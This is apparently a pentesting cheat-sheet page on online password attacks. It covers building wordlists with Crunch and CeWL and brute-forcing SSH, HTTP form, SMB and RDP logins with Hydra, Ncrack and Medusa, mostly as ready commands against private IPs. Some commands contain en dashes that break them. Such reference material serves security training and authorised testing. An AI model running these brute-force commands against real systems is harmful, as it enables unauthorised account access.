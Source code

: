 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

```text
crunch [min] [max] [characterset] -t [pattern] -o [output filename]
```

```text
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

```text
./crunch 1 1 -p pen test lab
```

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

```text
./crunch 6 6 0123456789 -b 1mb -o START
```

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

```text
./crunch 3 3 -f charset.lst lalpha -o START -c 20
```

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

```text
./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
```

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

```text
cewl -d 2 -m 5 -w docswords.txt https://example.com
```

Options
```
-m, --min_word_length: Minimum word length, default 3.
-w, --write: Write the output to the file.
-d <x>,--depth <x>: Depth to spider to, default 2.
```

## Bruteforce

### Hydra

```text
hydra -l username -p passwordlist.txt [target (ip address and port)]
```

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

```text
hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh
```

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

```text
hydra -L [username list] -P [password list] 192.168.1.10 [form parameters] [failed login message]
```

#### SMB Bruteforce

```text
hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%281%29.png)

{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

```text
 ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35
```

#### SMB Bruteforce

```text
ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
```

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

```text
medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
```

